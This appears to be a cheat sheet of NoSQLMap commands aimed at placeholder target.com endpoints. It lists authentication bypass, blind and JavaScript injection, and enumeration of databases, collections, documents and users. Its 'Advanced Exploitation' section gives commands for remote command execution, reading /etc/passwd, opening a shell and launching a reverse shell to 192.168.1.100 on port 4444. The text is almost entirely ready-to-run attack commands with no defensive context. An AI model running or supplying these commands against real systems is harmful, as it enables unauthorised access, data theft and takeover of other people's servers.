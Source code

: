 ## Injection Techniques

```bash
# Authentication bypass
python nosqlmap.py -t http://target.com/login -p username,password --auth-bypass

# Boolean-based blind injection
python nosqlmap.py -t http://target.com/search -p query --technique blind-boolean

# Time-based blind injection
python nosqlmap.py -t http://target.com/search -p query --technique blind-time

# JavaScript injection (MongoDB)
python nosqlmap.py -t http://target.com/api -p filter --technique javascript

# Schema injection
python nosqlmap.py -t http://target.com/docs -p collection --technique schema
```

## Data Enumeration

```bash
# Database enumeration
python nosqlmap.py -t http://target.com/api -p query --enumerate-dbs

# Collection enumeration
python nosqlmap.py -t http://target.com/api -p query --enumerate-collections

# Document enumeration
python nosqlmap.py -t http://target.com/api -p query --enumerate-documents

# User enumeration
python nosqlmap.py -t http://target.com/api -p query --enumerate-users

# Index enumeration
python nosqlmap.py -t http://target.com/api -p query --enumerate-indexes
```

## Advanced Exploitation

```bash
# JavaScript execution (MongoDB)
python nosqlmap.py -t http://target.com/api -p query --exec-js "db.version()"

# Command execution
python nosqlmap.py -t http://target.com/api -p query --exec-cmd "whoami"

# File operations
python nosqlmap.py -t http://target.com/api -p query --read-file "/etc/passwd"

# Shell access
python nosqlmap.py -t http://target.com/api -p query --shell

# Reverse shell
python nosqlmap.py -t http://target.com/api -p query --reverse-shell 192.168.1.100 4444
```
